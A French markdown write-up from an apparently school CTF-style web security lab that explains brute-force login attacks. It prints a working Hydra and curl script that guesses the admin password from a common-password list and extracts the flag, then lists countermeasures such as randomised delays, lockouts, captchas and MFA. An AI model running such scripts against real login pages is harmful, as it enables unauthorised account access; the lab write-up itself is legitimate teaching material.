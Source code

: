 Voici un fichier `.md` qui décrit ce qu'est une attaque par force brute, comment vous avez réalisé l'attaque et quelles sont les solutions pour la contrer, y compris la solution de randomisation du délai.

---

# Attaque par Force Brute et Comment la Contre-Mesurer

## Qu'est-ce qu'une faille de brute force ?

Une faille de brute force se produit lorsqu'un attaquant tente systématiquement toutes les combinaisons possibles d'identifiants (ou mots de passe) pour accéder à un système sécurisé. Il s'agit d'une méthode très simple, mais potentiellement efficace, qui repose sur le fait de tester un grand nombre de mots de passe ou de clés jusqu'à ce que l'attaquant trouve la bonne combinaison. Cette méthode peut être particulièrement efficace si le mot de passe est simple, commun ou facilement devinable.

Les outils d'attaque par force brute automatisent ce processus, permettant à l'attaquant de tester des milliers, voire des millions, de combinaisons en très peu de temps.

## Comment j'ai exploité cette faille ?

J'ai utilisé un script pour réaliser une attaque par force brute sur un serveur web, en combinant l'outil **Hydra** pour automatiser la tentative de connexion, et l'outil **Curl** pour vérifier la réponse du serveur. Voici le script que j'ai utilisé :

```bash
#!/bin/zsh

echo "Script de brutforce\n\nDonne l'IP stp :"

read  IP_DARKLY

if [ -z $IP_DARKLY ]; then
    echo "Donne l'IP j'ai dit !"
    exit 1
fi

# Exécution de Hydra pour essayer différents mots de passe
hydra -l admin -P 10000-most-common-passwords.txt -F -V "$IP_DARKLY" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'

echo "\n\nDonne le mot de passe qu'on test ca :"

read PASSWORD

# Utilisation de curl pour vérifier si le mot de passe est correct et récupérer le flag
curl "http://$IP_DARKLY/index.php?page=signin&username=admin&password=$PASSWORD&Login=Login#" | grep flag | awk -F': | <' '{print "\nThe flag => "$2}'
```

### Explication du Script :

1. **Hydra** : Utilisé pour essayer une liste de 10 000 mots de passe communs afin de casser le mot de passe de l'utilisateur "admin" sur la page de connexion du serveur.
2. **Curl** : Après avoir récupéré le mot de passe, j'ai utilisé `curl` pour envoyer une requête HTTP au serveur avec le mot de passe trouvé et rechercher un **flag** dans la réponse de la page.
3. **awk et grep** : Ces outils permettent d'extraire le flag trouvé sur la page si le mot de passe est correct.

## Solution pour contrer les attaques par force brute

### 1. **Randomiser le délai de réponse**

L'une des solutions les plus efficaces contre une attaque par force brute est d'ajouter un **délai de réponse** aléatoire. Actuellement, le serveur que j'attaque met un délai de 2 secondes si le mot de passe est incorrect. Un attaquant peut s'attendre à ce délai et ajuster son attaque en conséquence.

Pour contrer cela, on peut introduire une variabilité dans le délai de réponse (par exemple entre 1 et 5 secondes), rendant beaucoup plus difficile pour un attaquant d'estimer la durée exacte et donc de mener une attaque efficace. Cela introduit une incertitude dans le processus d'attaque, ralentissant potentiellement les tentatives de force brute.

### 2. **Bloquer ou limiter les tentatives de connexion**

- **Verrouillage temporaire** : Après un certain nombre de tentatives de connexion échouées, verrouiller temporairement le compte pour une durée spécifique (par exemple 15 minutes).
- **Captchas** : Demander à l'utilisateur de résoudre un captcha après un nombre défini de tentatives échouées peut également décourager les attaques automatisées.

### 3. **Utilisation de mots de passe forts**

Une bonne défense contre les attaques de force brute est d'encourager (ou d'imposer) l'utilisation de mots de passe longs et complexes. Cela augmente considérablement le temps nécessaire pour que l'attaquant devine le mot de passe, même en utilisant des outils automatisés.

### 4. **Utilisation de l'authentification multi-facteurs (MFA)**

L'authentification multi-facteurs est une méthode très efficace pour empêcher les attaques de force brute. Même si un attaquant parvient à casser le mot de passe, il lui faudra également un second facteur (comme un code envoyé par SMS ou une application d'authentification), ce qui rend l'attaque beaucoup plus difficile.

---

Avec ces mesures en place, les attaques par force brute deviennent beaucoup plus difficiles à exécuter, protégeant ainsi les utilisateurs et les serveurs des attaques malveillantes.